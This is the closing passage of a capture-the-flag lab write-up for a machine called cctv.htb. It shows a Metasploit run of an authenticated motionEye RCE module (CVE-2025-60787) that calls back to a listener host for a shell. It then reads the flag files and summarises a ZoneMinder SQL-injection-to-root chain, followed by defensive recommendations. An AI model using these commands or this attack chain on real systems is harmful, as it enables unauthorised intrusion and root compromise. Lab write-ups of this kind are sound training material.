

```text
msfconsole -q
use exploit/linux/http/motioneye_auth_rce_cve_2025_60787
set RHOSTS 127.0.0.1
set RPORT 8766
set USERNAME admin
set PASSWORD 989c5a8ee87a0e9521ec81a79187d162109282f0
set LHOST 10.10.15.206
set LPORT 4444
check
run
```



```bash
whoami
cat /home/sa_mark/user.txt
cat /root/root.txt
```




🏁 **User flag obtained**

🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate `10.129.20.51` → open **22/tcp** and **80/tcp**; follow **`cctv.htb`** vhost to a marketing site with **Staff Login** to **ZoneMinder**.
2. Authenticate in ZoneMinder (`v1.37.63`) and replay a valid **`ZMSESSID`** to an authenticated handler.
3. Exploit **authenticated SQL injection** on **`tid`** (`removetag`) → dump **`zm.Users`** → crack **`mark`**’s bcrypt hash → **SSH** as `mark`.
4. Enumerate **localhost-only** CCTV services (**motionEye/Motion/mediamtx**) and read **`/etc/motioneye/`** configuration for motionEye admin material.
5. **SSH `-L`** to reach **motionEye** on loopback → **Metasploit** authenticated **CVE-2025-60787** → **root** → read **`user.txt`** and **`root.txt`**.

---
## Defensive Recommendations

- Remove default **ZoneMinder** administrator credentials; enforce MFA where possible and monitor for **`admin:admin`**-class misconfiguration.
- Patch or upgrade **ZoneMinder** to a version not affected by **CVE-2024-51482** (and related issues), and validate authenticated endpoints with parameterized queries.
- Bind sensitive admin interfaces to management networks (or require VPN), not just “localhost” reachable via any user SSH tunnel; enforce strong admin passwords and lock down camera naming/upload features in **motionEye**.
- Patch **motionEye** to a fixed release for **CVE-2025-60787**; treat authenticated RCE modules as high priority in vulnerability management.
- Reduce credential reuse across layers (**web app DB users** vs **OS users**) and monitor for **sqlmap**-like database extraction patterns (HTTP 500 spikes, long-running authenticated sessions).
